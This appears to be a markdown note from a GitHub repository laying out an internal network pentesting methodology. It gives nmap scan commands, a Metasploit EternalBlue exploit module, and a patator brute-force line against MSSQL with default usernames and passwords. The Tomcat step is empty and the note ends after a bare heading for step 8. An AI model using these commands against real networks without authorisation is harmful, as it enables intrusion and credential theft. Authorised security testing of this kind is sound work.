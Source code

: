 # Internal pentesting - Methodology

Internal pentesting simulates an insider attack starting from a point within
the internal network.

The present note does not address Active Directory pentesting. While part of the
methodology detailed in this note can be applied for an Active Directory
pentesting, specific tools and techniques make the overall approach completely
different.

### Low hanging fruits

The first step in an internal pentesting is to look for the path of least
resistance, the low hanging fruits that can easily be detected and exploited
(unpatched systems, default or guessable passwords, etc.).

The following steps represent my personnal methodology when starting an
internal penetration test:

  1. Nessus scan on all ports testing for RCE

     ```
     # Transfomr a list of servers hostnames / IP into a comma separated list
     sed ':a;N;$!ba;s/\n/ /g' <FILE>

     Advanced Scan
     # Scan all 0-65535 ports
     Settings -> Discovery -> Scan type -> Port scan (all ports)
     # Scan for RCE vulnerabilities
     Plugins -> Only keep "Backdoors", "Gain a shell remotely" and "Service detection" enabled
     ```

  2. Ping sweep with nmap

     ```
     # IP & range
     IP="<IP>" && SUB="<MASK>"
     nmap -v -sn -oG "ping_sweep_$IP-$SUB.gnmap" "$IP/$SUB"

     # From file
     nmap -v -sn -oG "<EXPORT_NAME>.gnmap" -iL <FILENAME>

     grep Up ping_sweep_$IP-$SUB.gnmap | cut -d ' ' -f 2 | tee "ping_sweep_$IP-$SUB.txt"
     ```

  3. Quick port scan with nmap

     ```
     nmap -v -sS -A -oA "quick_scan_tcp_$IP-$SUB" -iL "ping_sweep_$IP-$SUB.txt"
     ```

  4. SMB RCE vulnerabilities, notably EternalBlue & SambaCry, detection and
     exploitation

     ```
     grep -w '445' quick_scan_tcp_$IP-$SUB.gnmap | cut -d ' ' -f 2 | tee "SMB_$IP-$SUB.txt"
     nmap -v -p 139,445 --script=vuln -oG

     # MS17-010
     # Windows 7 and Server 2008 R2 (x64) All Service Packs
     msf> use exploit/windows/smb/ms17_010_eternalblue
     ```

  5. MSSQL default or guessable credentials

     ```
     grep -w '1433' quick_scan_tcp_$IP-$SUB.gnmap | cut -d ' ' -f 2 | tee "MSSQL_$IP-$SUB.txt"

     # Usernames: sa, Administrator, Administrateur
     # Passwords: blank, sa or Password123
     patator mssql_login host=FILE0 user=FILE1 password=FILE2 0="MSSQL_$IP-$SUB.txt" 1=<WORDLIST_USER> 2=<WORDLIST_PASSWORD> -x ignore:fgrep='Login failed for user'
     ```  

  6. Exposed rlogin and rexec services without password

     ```
     grep -w "512\|513" quick_scan_tcp_$IP-$SUB.gnmap | cut -d ' ' -f 2 | tee "RLOGIN_$IP-$SUB.txt"
     ```

  7. Tomcat guessable credentials

     ```
     ```

  8. Review Nessus RCE scan results
